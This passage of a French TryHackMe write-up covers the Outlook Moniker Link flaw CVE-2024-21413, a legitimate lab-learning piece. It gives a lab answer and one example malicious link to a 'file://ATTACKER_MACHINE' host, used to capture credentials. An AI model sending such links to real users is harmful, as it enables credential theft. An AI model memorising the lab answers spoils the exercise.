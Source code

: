 ```yaml
---
title: "TryHackMe - Moniker Link (CVE-2024-21413)"
date: 2025-10-15 00:10:00 +0100
categories: [TryHackMe, Learning]
tags: [moniker-link, cve-2024-21413, microsoft, outlook, exploitation]
description: "Write-up de la room Moniker Link - analyse et exploitation de la CVE-2024-21413 affectant Microsoft Outlook"
image:
  path: /assets/img/posts/tryhackme-moniker-link.png
  alt: "Moniker Link CVE-2024-21413"
---
```


## Informations sur la room

Room d'introduction aux vulnérabilités de type Moniker Link, avec un focus sur la CVE-2024-21413 affectant Microsoft Outlook.

**Lien :** [Moniker Link Room](https://tryhackme.com/room/monikerlink)

## Objectifs d'apprentissage

Cette room couvre les points suivants :
- Comprendre le fonctionnement de la vulnérabilité CVE-2024-21413
- Analyser le mode "Protected View" d'Outlook et ses limitations
- Exploiter la vulnérabilité pour capturer les identifiants d'un client Outlook
- Mettre en place des mesures de détection et d'atténuation

---

## Solutions des tâches

### Task 1 - Introduction

**What "Severity" rating has the CVE been assigned?**

La page officielle de la CVE est disponible ici : [CVE-2024-21413](https://www.cve.org/CVERecord?id=CVE-2024-21413)

Le niveau de sévérité est clairement indiqué sur la page : **Critical**

**Réponse :** `critical`

### Task 2 - Moniker Link (CVE-2024-21413)

**Principe de la vulnérabilité**

La vulnérabilité exploite les liens hypertextes dans les emails Outlook. Voici un exemple de lien malveillant classique :

```html
<p><a href="file://ATTACKER_MACHINE/test">Click me</a></p>
```
